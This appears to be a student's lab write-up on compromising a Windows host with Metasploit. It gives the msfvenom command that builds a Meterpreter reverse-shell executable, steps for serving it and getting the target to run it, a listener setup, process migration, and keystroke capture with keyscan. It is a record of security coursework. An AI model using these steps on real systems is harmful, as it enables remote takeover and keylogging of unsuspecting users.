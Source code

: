 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit
### NAME : G LEKASRI
### REGISTER NUMBER : 212223100025
# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
## PROGRAM:
Find the attackers ip address using ifconfig

## OUTPUT:
Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
![eth1](https://github.com/user-attachments/assets/cc1f20b4-3c49-4e72-b5c6-e84c03f3c159)

copy the fun.exe into the apache /var/www/html folder
![eth2](https://github.com/user-attachments/assets/ba842e84-362d-4434-9fa6-4389d8742281)


Start apache server sudo systemctl apache2 start and Check the status of apache2
![eth3](https://github.com/user-attachments/assets/f5a6294d-f89f-4b0a-8eb2-d14e044d4349)



## Invoke msfconsole:
## OUTPUT:

![eth4](https://github.com/user-attachments/assets/d44f09bd-f4a6-4483-ba59-18956817f915)


ype help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

![eth5](https://github.com/user-attachments/assets/e357897c-591c-4151-b076-973d867b0d4d)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![eth6](https://github.com/user-attachments/assets/df378756-c9bb-4803-b3e9-3c7ccba9588d)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit 

![eth7](https://github.com/user-attachments/assets/ca5c1c49-34c6-4709-bb20-a85e7fe72560)


To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![eth8](https://github.com/user-attachments/assets/10ec586e-51e0-4363-afa1-2dd428cecba1)





keyscan_dump Shows the keystrokes captured so far
![eth9](https://github.com/user-attachments/assets/85100400-899d-4c1d-bd55-9bd99f4f2597)




## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
